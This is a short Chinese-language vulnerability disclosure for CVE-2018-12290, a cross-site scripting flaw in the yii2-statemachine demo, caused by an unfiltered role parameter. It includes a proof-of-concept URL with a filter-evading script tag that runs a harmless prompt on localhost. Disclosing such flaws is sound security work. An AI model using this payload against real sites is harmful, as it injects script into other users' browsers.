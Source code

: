 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|yii2-statemachine v2.x.x存在XSS漏洞|2018-06-12|longer|[https://github.com/ptheofan/yii2-statemachine-demo](https://github.com/ptheofan/yii2-statemachine-demo) | [https://github.com/ptheofan/yii2-statemachine-demo](https://github.com/ptheofan/yii2-statemachine-demo) |v2.x.x| [CVE-2018-12290](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12290)|  

#### 漏洞概述  

> 由于role参数过滤不严格，导致可以插入js代码造成跨站脚本攻击。如将role参数赋值为`guest'%22()%26%25<acx><ScRiPt%20>prompt(123555)</ScRiPt>`，并进行get方式提交，可造成跨站脚本攻击。   
 
### POC实现代码如下：  

> exp代码如下：  

``` html
https://127.0.0.1/?role=guest'%22()%26%25<acx><ScRiPt%20>prompt(123555)</ScRiPt>
```
### POC截图效果如下：

![POC运行截图](img/4.png)